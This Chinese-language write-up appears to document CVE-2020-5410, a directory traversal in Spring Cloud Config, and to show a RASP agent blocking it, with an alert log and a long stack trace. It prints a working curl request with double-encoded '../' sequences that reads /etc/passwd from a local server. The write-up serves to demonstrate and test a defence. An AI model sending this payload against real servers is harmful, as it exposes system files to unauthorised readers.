


# CVE-2020-5410

## 漏洞简介

Spring Cloud Config目录穿越漏洞。Spring Cloud Config，2.2.3之前的2.2.x版本，2.1.9之前的2.1.x版本以及较旧的不受支持的版本允许应用程序通过spring-cloud-config-server模块提供任意配置文件。恶意用户或攻击者可以使用特制URL发送请求，这可能导致目录遍历攻击。
Spring cloud Config已经出现过两次目录穿越漏洞，分别是CVE-2019-3799和CVE-2020-5405

## 影响版本

Spring Cloud Config: 2.2.0 to 2.2.2

Spring Cloud Config: 2.1.0 to 2.1.8

## 漏洞环境

关于漏洞的利用原理不在详细描述，直接看代码：

[代码](https://gitee.com/xl1605368195/spring-cloud-config-server)

## 漏洞复现

+ 启动带有指定Spring Cloud Config版本的web应用：

```shell
java -jar ./target/spring-cloud-config-CVE-2020-5405.jar
```
+ 发起请求：

```shell
curl "http://localhost:8888/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23foo/development"
```
+ 请求结果：



## RASP防护

### 启动 RASP 后再次发起相同请求

+ 请求被阻断：


+ RASP截获的信息

2021-09-08 16:44:00 WARN  file: config-repo/../../../../../../../../../../../etc/passwd,time: 0.798959,thread: http-nio-8888-exec-1,info:
```json
{
	"protocol": "HTTP/1.1",
	"method": "GET",
	"remoteHost": "0:0:0:0:0:0:0:1",
	"requestURI": "/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23foo/development",
	"stackTrace": ["java.io.FileInputStream.<init>(FileInputStream.java:123)", "java.io.FileInputStream.<init>(FileInputStream.java:93)", "sun.net.www.protocol.file.FileURLConnection.connect(FileURLConnection.java:90)", "sun.net.www.protocol.file.FileURLConnection.getInputStream(FileURLConnection.java:188)", "org.springframework.core.io.UrlResource.getInputStream(UrlResource.java:173)", "org.springframework.boot.env.OriginTrackedPropertiesLoader$CharacterReader.<init>(OriginTrackedPropertiesLoader.java:157)", "org.springframework.boot.env.OriginTrackedPropertiesLoader.load(OriginTrackedPropertiesLoader.java:74)", "org.springframework.boot.env.OriginTrackedPropertiesLoader.load(OriginTrackedPropertiesLoader.java:63)", "org.springframework.boot.env.PropertiesPropertySourceLoader.loadProperties(PropertiesPropertySourceLoader.java:61)", "org.springframework.boot.env.PropertiesPropertySourceLoader.load(PropertiesPropertySourceLoader.java:47)", "org.springframework.boot.context.config.ConfigFileApplicationListener$Loader.loadDocuments(ConfigFileApplicationListener.java:562)", "org.springframework.boot.context.config.ConfigFileApplicationListener$Loader.load(ConfigFileApplicationListener.java:518)", "org.springframework.boot.context.config.ConfigFileApplicationListener$Loader.loadForFileExtension(ConfigFileApplicationListener.java:494)", "org.springframework.boot.context.config.ConfigFileApplicationListener$Loader.load(ConfigFileApplicationListener.java:464)", "org.springframework.boot.context.config.ConfigFileApplicationListener$Loader.lambda$null$7(ConfigFileApplicationListener.java:443)", "java.lang.Iterable.forEach(Iterable.java:75)", "org.springframework.boot.context.config.ConfigFileApplicationListener$Loader.lambda$load$8(ConfigFileApplicationListener.java:443)", "java.lang.Iterable.forEach(Iterable.java:75)", "org.springframework.boot.context.config.ConfigFileApplicationListener$Loader.load(ConfigFileApplicationListener.java:440)", "org.springframework.boot.context.config.ConfigFileApplicationListener$Loader.lambda$load$0(ConfigFileApplicationListener.java:335)", "org.springframework.boot.context.config.FilteredPropertySource.apply(FilteredPropertySource.java:54)", "org.springframework.boot.context.config.ConfigFileApplicationListener$Loader.load(ConfigFileApplicationListener.java:323)", "org.springframework.boot.context.config.ConfigFileApplicationListener.addPropertySources(ConfigFileApplicationListener.java:214)", "org.springframework.boot.context.config.ConfigFileApplicationListener.postProcessEnvironment(ConfigFileApplicationListener.java:198)", "org.springframework.boot.context.config.ConfigFileApplicationListener.onApplicationEnvironmentPreparedEvent(ConfigFileApplicationListener.java:188)", "org.springframework.boot.context.config.ConfigFileApplicationListener.onApplicationEvent(ConfigFileApplicationListener.java:176)", "org.springframework.context.event.SimpleApplicationEventMulticaster.doInvokeListener(SimpleApplicationEventMulticaster.java:172)", "org.springframework.context.event.SimpleApplicationEventMulticaster.invokeListener(SimpleApplicationEventMulticaster.java:165)", "org.springframework.context.event.SimpleApplicationEventMulticaster.multicastEvent(SimpleApplicationEventMulticaster.java:139)", "org.springframework.context.event.SimpleApplicationEventMulticaster.multicastEvent(SimpleApplicationEventMulticaster.java:127)", "org.springframework.boot.context.event.EventPublishingRunListener.environmentPrepared(EventPublishingRunListener.java:76)", "org.springframework.boot.SpringApplicationRunListeners.environmentPrepared(SpringApplicationRunListeners.java:53)", "org.springframework.boot.SpringApplication.prepareEnvironment(SpringApplication.java:345)", "org.springframework.boot.SpringApplication.run(SpringApplication.java:308)", "org.springframework.boot.builder.SpringApplicationBuilder.run(SpringApplicationBuilder.java:140)", "org.springframework.cloud.config.server.environment.NativeEnvironmentRepository.findOne(NativeEnvironmentRepository.java:150)", "org.springframework.cloud.config.server.environment.CompositeEnvironmentRepository.findOne(CompositeEnvironmentRepository.java:58)", "org.springframework.cloud.config.server.environment.EnvironmentEncryptorEnvironmentRepository.findOne(EnvironmentEncryptorEnvironmentRepository.java:61)", "org.springframework.cloud.config.server.environment.EnvironmentController.getEnvironment(EnvironmentController.java:143)", "org.springframework.cloud.config.server.environment.EnvironmentController.defaultLabel(EnvironmentController.java:108)", "sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)", "sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)", "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)", "java.lang.reflect.Method.invoke(Method.java:498)", "org.springframework.util.ReflectionUtils.invokeMethod(ReflectionUtils.java:279)", "org.springframework.cloud.context.scope.GenericScope$LockedScopedProxyFactoryBean.invoke(GenericScope.java:499)", "org.springframework.aop.framework.ReflectiveMethodInvocation.proceed(ReflectiveMethodInvocation.java:186)", "org.springframework.aop.framework.CglibAopProxy$CglibMethodInvocation.proceed(CglibAopProxy.java:747)", "org.springframework.aop.framework.CglibAopProxy$DynamicAdvisedInterceptor.intercept(CglibAopProxy.java:689)", "org.springframework.cloud.config.server.environment.EnvironmentController$$EnhancerBySpringCGLIB$$96baa1c.defaultLabel(<generated>)", "sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)", "sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)", "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)", "java.lang.reflect.Method.invoke(Method.java:498)", "org.springframework.web.method.support.InvocableHandlerMethod.doInvoke(InvocableHandlerMethod.java:190)", "org.springframework.web.method.support.InvocableHandlerMethod.invokeForRequest(InvocableHandlerMethod.java:138)", "org.springframework.web.servlet.mvc.method.annotation.ServletInvocableHandlerMethod.invokeAndHandle(ServletInvocableHandlerMethod.java:106)", "org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerAdapter.invokeHandlerMethod(RequestMappingHandlerAdapter.java:888)", "org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerAdapter.handleInternal(RequestMappingHandlerAdapter.java:793)", "org.springframework.web.servlet.mvc.method.AbstractHandlerMethodAdapter.handle(AbstractHandlerMethodAdapter.java:87)", "org.springframework.web.servlet.DispatcherServlet.doDispatch(DispatcherServlet.java:1040)", "org.springframework.web.servlet.DispatcherServlet.doService(DispatcherServlet.java:943)", "org.springframework.web.servlet.FrameworkServlet.processRequest(FrameworkServlet.java:1006)", "org.springframework.web.servlet.FrameworkServlet.doGet(FrameworkServlet.java:898)"],
	"localAddr": "0:0:0:0:0:0:0:1",
	"parameterMap": {},
	"remoteAddr": "0:0:0:0:0:0:0:1"
}
```
+ 详细调用栈

```
java.io.FileInputStream.<init>(FileInputStream.java:123)
java.io.FileInputStream.<init>(FileInputStream.java:93)
sun.net.www.protocol.file.FileURLConnection.connect(FileURLConnection.java:90)
sun.net.www.protocol.file.FileURLConnection.getInputStream(FileURLConnection.java:188)
org.springframework.core.io.UrlResource.getInputStream(UrlResource.java:173)
org.springframework.boot.env.OriginTrackedPropertiesLoader$CharacterReader.<init>(OriginTrackedPropertiesLoader.java:157)
org.springframework.boot.env.OriginTrackedPropertiesLoader.load(OriginTrackedPropertiesLoader.java:74)
org.springframework.boot.env.OriginTrackedPropertiesLoader.load(OriginTrackedPropertiesLoader.java:63)
org.springframework.boot.env.PropertiesPropertySourceLoader.loadProperties(PropertiesPropertySourceLoader.java:61)
org.springframework.boot.env.PropertiesPropertySourceLoader.load(PropertiesPropertySourceLoader.java:47)
org.springframework.boot.context.config.ConfigFileApplicationListener$Loader.loadDocuments(ConfigFileApplicationListener.java:562)
org.springframework.boot.context.config.ConfigFileApplicationListener$Loader.load(ConfigFileApplicationListener.java:518)
org.springframework.boot.context.config.ConfigFileApplicationListener$Loader.loadForFileExtension(ConfigFileApplicationListener.java:494)
org.springframework.boot.context.config.ConfigFileApplicationListener$Loader.load(ConfigFileApplicationListener.java:464)
org.springframework.boot.context.config.ConfigFileApplicationListener$Loader.lambda$null$7(ConfigFileApplicationListener.java:443)
java.lang.Iterable.forEach(Iterable.java:75)
org.springframework.boot.context.config.ConfigFileApplicationListener$Loader.lambda$load$8(ConfigFileApplicationListener.java:443)
java.lang.Iterable.forEach(Iterable.java:75)
org.springframework.boot.context.config.ConfigFileApplicationListener$Loader.load(ConfigFileApplicationListener.java:440)
org.springframework.boot.context.config.ConfigFileApplicationListener$Loader.lambda$load$0(ConfigFileApplicationListener.java:335)
org.springframework.boot.context.config.FilteredPropertySource.apply(FilteredPropertySource.java:54)
org.springframework.boot.context.config.ConfigFileApplicationListener$Loader.load(ConfigFileApplicationListener.java:323)
org.springframework.boot.context.config.ConfigFileApplicationListener.addPropertySources(ConfigFileApplicationListener.java:214)
org.springframework.boot.context.config.ConfigFileApplicationListener.postProcessEnvironment(ConfigFileApplicationListener.java:198)
org.springframework.boot.context.config.ConfigFileApplicationListener.onApplicationEnvironmentPreparedEvent(ConfigFileApplicationListener.java:188)
org.springframework.boot.context.config.ConfigFileApplicationListener.onApplicationEvent(ConfigFileApplicationListener.java:176)
org.springframework.context.event.SimpleApplicationEventMulticaster.doInvokeListener(SimpleApplicationEventMulticaster.java:172)
org.springframework.context.event.SimpleApplicationEventMulticaster.invokeListener(SimpleApplicationEventMulticaster.java:165)
org.springframework.context.event.SimpleApplicationEventMulticaster.multicastEvent(SimpleApplicationEventMulticaster.java:139)
org.springframework.context.event.SimpleApplicationEventMulticaster.multicastEvent(SimpleApplicationEventMulticaster.java:127)
org.springframework.boot.context.event.EventPublishingRunListener.environmentPrepared(EventPublishingRunListener.java:76)
org.springframework.boot.SpringApplicationRunListeners.environmentPrepared(SpringApplicationRunListeners.java:53)
org.springframework.boot.SpringApplication.prepareEnvironment(SpringApplication.java:345)
org.springframework.boot.SpringApplication.run(SpringApplication.java:308)
org.springframework.boot.builder.SpringApplicationBuilder.run(SpringApplicationBuilder.java:140)
org.springframework.cloud.config.server.environment.NativeEnvironmentRepository.findOne(NativeEnvironmentRepository.java:150)
org.springframework.cloud.config.server.environment.CompositeEnvironmentRepository.findOne(CompositeEnvironmentRepository.java:58)
org.springframework.cloud.config.server.environment.EnvironmentEncryptorEnvironmentRepository.findOne(EnvironmentEncryptorEnvironmentRepository.java:61)
org.springframework.cloud.config.server.environment.EnvironmentController.getEnvironment(EnvironmentController.java:143)
org.springframework.cloud.config.server.environment.EnvironmentController.defaultLabel(EnvironmentController.java:108)
sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
java.lang.reflect.Method.invoke(Method.java:498)
org.springframework.util.ReflectionUtils.invokeMethod(ReflectionUtils.java:279)
org.springframework.cloud.context.scope.GenericScope$LockedScopedProxyFactoryBean.invoke(GenericScope.java:499)
org.springframework.aop.framework.ReflectiveMethodInvocation.proceed(ReflectiveMethodInvocation.java:186)
org.springframework.aop.framework.CglibAopProxy$CglibMethodInvocation.proceed(CglibAopProxy.java:747)
org.springframework.aop.framework.CglibAopProxy$DynamicAdvisedInterceptor.intercept(CglibAopProxy.java:689)
org.springframework.cloud.config.server.environment.EnvironmentController$$EnhancerBySpringCGLIB$$96baa1c.defaultLabel(<generated>)
sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
java.lang.reflect.Method.invoke(Method.java:498)
org.springframework.web.method.support.InvocableHandlerMethod.doInvoke(InvocableHandlerMethod.java:190)
org.springframework.web.method.support.InvocableHandlerMethod.invokeForRequest(InvocableHandlerMethod.java:138)
org.springframework.web.servlet.mvc.method.annotation.ServletInvocableHandlerMethod.invokeAndHandle(ServletInvocableHandlerMethod.java:106)
org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerAdapter.invokeHandlerMethod(RequestMappingHandlerAdapter.java:888)
org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerAdapter.handleInternal(RequestMappingHandlerAdapter.java:793)
org.springframework.web.servlet.mvc.method.AbstractHandlerMethodAdapter.handle(AbstractHandlerMethodAdapter.java:87)
org.springframework.web.servlet.DispatcherServlet.doDispatch(DispatcherServlet.java:1040)
org.springframework.web.servlet.DispatcherServlet.doService(DispatcherServlet.java:943)
org.springframework.web.servlet.FrameworkServlet.processRequest(FrameworkServlet.java:1006)
org.springframework.web.servlet.FrameworkServlet.doGet(FrameworkServlet.java:898)
```

根据上诉调用栈，很容易复现漏洞的利用路径
